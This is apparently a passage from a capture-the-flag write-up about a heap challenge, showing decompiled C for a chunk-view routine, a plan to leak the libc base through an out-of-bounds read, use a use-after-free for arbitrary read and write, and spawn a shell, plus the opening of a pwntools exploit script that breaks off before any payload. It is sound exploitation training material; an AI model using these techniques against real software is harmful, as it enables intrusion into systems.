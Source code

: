 ```c
      if ( !chunks[v2]->flag || !chunks[v2]->data )
        puts("unused chunk");
      write(1, chunks[v2]->data, chunks[v2]->size);
    }
    else
    {
      puts("invalid chunk index");
    }
  }
  else
  {
    puts("oob input");
  }
  return v4 - __readfsqword(0x28u);
}
```
1. get chunk id
2. check flag and data is set
3. output chunk data

#### Scenario
1. leak libcbase with `view` (oob)
2. make aaw, aar primitiv with `add`, `free` (uaf exists because there dangling pointer in chunks list)
3. overwrite some place to spawn a shell

### Exploit

```python
from pwn import *

class Exploit:
    def __init__(self, chal_path, libc_path, nc_url):
        self.chal_path = chal_path
        self.libc_path = libc_path
        self.nc_url = nc_url

        libc = ELF(self.libc_path) if self.libc_path else None
        self.libc = libc
        env = {"LD_PRELOAD": self.libc_path} if self.libc_path else None
        env = {}
        if args.REMOTE:
            nc_url = self.nc_url.split()
            self.p = remote(nc_url[1], int(nc_url[2]))
        elif args.DEBUGG:
            context.terminal = ["tmux", "splitw", "-h"]
            self.p = process(self.chal_path, env=env)
            gdbscript = """
            # pie b 0x0000000000001814
            # pie b 0x0000000000001762
            # b *puts
            pie b 0x000000000000162A
            b *__run_exit_handlers+229

            p $_base()+0x4060

            c
            """
            gdb.attach(self.p, gdbscript=gdbscript)
        else:
            self.p = process(self.chal_path, env=env)
    
sla = lambda x, y : p.sendlineafter(x, y)
```